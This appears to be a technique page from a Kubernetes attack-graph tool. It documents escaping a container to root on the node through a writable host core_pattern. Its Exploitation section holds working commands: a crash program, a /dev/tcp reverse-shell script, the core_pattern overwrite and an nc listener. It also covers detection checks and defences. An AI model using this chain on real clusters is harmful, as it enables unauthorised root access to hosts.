 # CE_UMH_CORE_PATTERN

Container escape via the `core_pattern` `usermode_helper` in the case of an exposed `/proc` mount.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md) | [Node](../vertices/NODE.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

[/proc/sys/kernel/core_pattern](https://man7.org/linux/man-pages/man5/core.5.html) defines a program which is executed on core-file generation (typically a program crash) and is passed the core file as standard input if the first character of this file is a pipe symbol `|`. This program is run by the root user and will allow up to 128 bytes of command line arguments. Attacker control of this progam would allow trivial code execution within the container host given any crash and core file generation (which can be simply discarded during a myriad of malicious actions). With write access to the host `/proc` directory and no additional privileges, an attacker can abuse this to escape a container and gain root on the containing K8s node.

## Prerequisites

Execution within a container process with the host `/proc/sys/kernel` (or any parent directory) mounted inside the container.

See the [example pod spec](../../test/setup/test-cluster/attacks/CE_UMH_CORE_PATTERN.yaml).

## Checks

Determine mounted volumes within the container as per [VOLUME_DISCOVER](./VOLUME_DISCOVER.md#checks). If the host `/proc/sys/kernel` (or any parent directory) is mounted, this attack will be possible. Example below.

```bash
$ cat /proc/self/mounts

...
proc /hostproc proc rw,nosuid,nodev,noexec,relatime 0 0
...
```

## Exploitation

First find the path of the container’s filesystem on the host. This can be done by retrieving the current mounts (see [VOLUME_DISCOVER](./VOLUME_DISCOVER.md#checks)). Looks for the `upperdir` value of the overlayfs entry associated with containerd:

```bash
$ cat /etc/mtab
...
overlay / overlay rw,relatime,lowerdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/27/fs,upperdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/71/fs,workdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/71/work 0 0
...

# Store path in a variable for future use
$ OVERLAY_PATH=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/71/fs
```

Oneliner alternative:

```bash
export OVERLAY_PATH=$(cat /proc/mounts | grep -oe upperdir=.*, | cut -d = -f 2 | tr -d , | head -n 1)
```

Next create a mini program that will crash immediately and generate a kernel coredump. For example:

```bash
echo 'int main(void) {
	char buf[1];
	for (int i = 0; i < 100; i++) {
		buf[i] = 1;
	}
	return 0;
}' > /tmp/crash.c && gcc -o crash /tmp/crash.c
```

Compile the program and copy the binary into the container as crash. Next write a shell script to be triggered inside the container’s file system as `shell.sh`:

```bash
# Reverse shell
REVERSE_IP=$(hostname -I | tr -d " ") && \
echo '#!/bin/sh' > /tmp/shell.sh
echo "sh -i >& /dev/tcp/${REVERSE_IP}/9000 0>&1" >> /tmp/shell.sh && \
chmod a+x /tmp/shell.sh
```

Finally write the `usermode_helper` script path to the `core_pattern` helper path and trigger the container escape:

```bash
cd /hostproc/sys/kernel
echo "|$OVERLAY_PATH/tmp/shell.sh" > core_pattern
sleep 5 && ./crash & nc -l -vv -p 9000
```

## Defences

### Monitoring

+ Use the Datadog agent to monitor for creation of new `usermode_helper` programs via writes to known locations, in this case `/proc/sys/kernel_core_pattern`.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/proc` or other sensitive locations.

### Least Privilege

Avoid running containers as the root user. Specify an unprivileged user account using the `securityContext`.

## Calculation

+ [EscapeUmhCorePattern](../../pkg/kubehound/graph/edge/escape_umh_core_pattern.go)

## References:

+ [Compendium Of Container Escapes](https://i.blackhat.com/USA-19/Thursday/us-19-Edwards-Compendium-Of-Container-Escapes-up.pdf)
+ [Sensitive Mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
+ [Escaping privileged containers for fun](https://pwning.systems/posts/escaping-containers-for-fun/)
